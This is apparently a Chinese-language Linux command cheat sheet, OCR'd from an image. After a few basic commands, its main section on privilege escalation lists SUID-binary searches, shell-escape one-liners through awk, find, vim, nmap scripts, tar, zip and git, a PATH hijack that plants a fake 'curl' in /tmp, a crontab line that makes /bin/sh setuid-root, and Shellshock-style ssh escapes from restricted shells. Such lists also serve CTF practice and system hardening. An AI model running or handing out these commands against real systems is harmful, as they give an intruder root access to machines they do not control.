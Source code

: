 ```
kill PID                //结束执行程序
shutdown -h now         //立即关机
reboot                  //重启
管道命令 | 将前面的结果给后面的命令
重定向 > 是覆盖模式，>> 是追加模式
```

### 提权相关

```
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
find / -perm -u=s -type f 2>/dev/null
find / -nouser -o -nogroup
------------------------------------------------------
"/"命令可直接运行/bin/sh或/bin/bash
"cp"命令可将/bin/sh或/bin/bash复制到当前目录
ftp,gdb,vim,more/man/less中可运行!/bin/sh或!/bin/bash
awk 'BEGIN {system("/bin/sh或/bin/bash")}'
find . -exec /bin/sh或/bin/bash -p \;
rvim中执行:python import os; os.system("/bin/bash")
scp -S /path/yourscript x y:
+ echo 'os.execute("/bin/sh")' > getroot.nse
+ sudo nmap --script getroot.nse
-------------------------------------------------------
except spawn sh
python -c 'import os; os.system("/bin/sh")'
php -a 然后 exec("sh -i");
perl -e 'exec "/bin/sh";'
ruby -e 'exec "/bin/sh"'
Lua:os.execute('/bin/sh').
-------------------------------------------------------
cd /tmp
# cp,vim,nano
+ echo "/bin/bash" > curl
+ chmod 777 curl
- ln -s /bin/sh curl
export PATH=/tmp:$PATH
echo "* * * * * root chmod 4777 /bin/sh" | sudo teehee -a /etc/crontab
-------------------------------------------------------
ssh user@IP - t "/bin/sh"或"/bin/bash"
ssh user@IP -t "bash --noprofile"
ssh user@IP -t "() { :; }; /bin/bash"
pico -s "/bin/bash"进入编辑器写入/bin/bash然后按ctrl + T键
git -p help 然后 !/bin/sh或!/bin/bash
zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
tar cf /dev/null testfile --checkpoint=1 --checkpointaction=exec=/bin/bash
-------------------------------------------------------
export PATH=$PATH:/bin/     #将/bin导出到PATH环境变量
export PATH=$PATH:/usr/bin  #将/usr/bin目录导出到PATH环境变量
```

